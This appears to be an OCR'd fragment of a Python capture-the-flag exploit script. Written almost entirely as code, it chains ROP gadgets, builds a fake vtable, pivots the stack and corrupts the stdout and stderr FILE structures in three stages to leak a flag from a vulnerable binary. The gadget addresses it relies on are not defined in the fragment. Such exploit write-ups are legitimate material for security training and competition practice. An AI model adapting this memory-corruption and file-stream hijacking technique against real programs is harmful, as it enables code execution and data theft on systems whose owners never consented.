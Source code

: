 ```python
def read_where(offset):
    payload = b""

    payload+=poprsi
    payload+=p64(offset)
    payload+=poprdi
    payload+=p64(0x0)
    payload+=read

    return payload
#Helper function to create a fake vtable
def create_fake_vtable(offset):
    payload = b''
    payload+=p64(0x0)*2
    payload+=p64(offset)*19
    payload+=p64(0x0)
    return payload

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"

#Stage 1 Create fake vtable, write flag to stderr, change low byte of stderr to point to write_base, stack pivot to the section with the open file pointers
io.send(padding + p64(abovestdout-0x8) + read_where(abovestdout-0x8) + read_where(abovestdin) + read_where(abovestderr) + read_where(fakevtable) + read_where(fullcontrol) + leave)

sleep(0.1)
io.send(p64(abovestdout-0x8) + popgarbage)
sleep(0.1)
io.send(popgarbage)
sleep(0.1)
io.send(poprsi)
sleep(0.1)
io.send(create_fake_vtable(main))
sleep(0.1)
io.send(retgadget*20 + poprdi + p64(0x0) + read + read_where(0x601040) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(p64(0xfbad1800))
sleep(0.1)
io.send(b'\x60')
sleep(0.1)

#Stage 2 Set the low byte of write_base in stderr to 0x0, restore stderr to previous condition, set low byte of stdout to point at vtable pointer
io.send(poprdi + p64(0x0) + read + read_where(0x601040) +read_where(0x601020) + read_where(abovestderr) + read_where(abovestdout-0x8) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(b'\x00')
sleep(0.1)
io.send(b'\x40')
sleep(0.1)
io.send(b'\xf8')
sleep(0.1)
io.send(popgarbage)
sleep(0.1)
io.send(p64(abovestdout-0x8) + poprsi)
sleep(0.1)

#Stage 3 Set the vtable pointer in stdout to point at our fake vtable. plant stack pivot at higher offset which will be used in last payload. Change low byte of stdout to point at write_base
io.send(poprdi + p64(0x0) + read + read_where(0x601300) + read_where(0x601020) + read_where(fullcontrol) + leave)
sleep(0.1)
```